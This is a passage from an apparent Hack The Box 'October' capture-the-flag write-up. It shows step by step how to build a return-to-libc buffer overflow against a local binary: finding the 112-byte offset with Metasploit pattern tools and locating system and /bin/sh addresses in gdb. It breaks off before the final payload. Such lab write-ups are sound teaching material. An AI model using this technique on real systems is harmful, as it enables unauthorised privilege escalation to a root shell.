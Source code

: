 ```bash
artis3n@ubuntu:~/Desktop$ ldd ovrflw | grep libc
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e13000)
```

On my __Kali__ host, I generate a pattern to find the buffer offset.
This will tell me how many bytes of data I need to pad my exploit with to fill the executable's buffer.

```bash
artis3n@kali-pop:~/shares/htb/october$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

In the __test__ VM, I use this pattern as input to the program while running in `gdb` to find the snippet of the pattern in memory when the application crashes.
Yes, I will have to keep jumping between hosts throughout these commands.
Double check what host I have bolded!

```bash
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x64413764 in ?? ()
```

It looks like `0x64413764` was the data that caused the program to crash.

Back on the __Kali__ host, I run this hex code through `pattern_offset` to find the exact number of offset bytes: `112`.

```bash
artis3n@kali-pop:~/shares/htb/october$ msf-pattern_offset -q 0x64413764
[*] Exact match at offset 112
```

On the __test__ VM, with ASLR disabled, I can construct a buffer overflow exploit with the following setup.
I need the memory addresses of the system calls `system` and `exit`, and the memory address of `/bin/sh`.
This will let me construct a `return-to-libc` attack.
I explain this in more detail in my [HTB Frolic][] writeup.

I get the memory address of `system` - `0xb7e53310`.

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e53310 <__libc_system>
```

I did not copy the `p exit` command and result, but you would repeat the above for `exit` instead of `system`.

I get the memory address of `/bin/sh` - `0xb7f75d4c`

```bash
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f75d4c ("/bin/sh")
```


[birthday paradox]: https://en.wikipedia.org/wiki/Birthday_problem
[gdb]: https://www.gnu.org/software/gdb/
[hackthebox]: https://www.hackthebox.eu
[htb frolic]: https://blog.artis3nal.com/2020-06-28-htb-frolic-msf/
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[october cms]: https://octobercms.com/
[peda]: https://github.com/longld/peda
[return-to-libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit
[birthday paradox calculation]: /assets/img/htb/october/birthday-paradox.png
[checksec]: /assets/img/htb/october/checksec.png
[gdb peda]: /assets/img/htb/october/gdb-with-peda.png
[overflow root shell]: /assets/img/htb/october/buffer-overflow-brute.png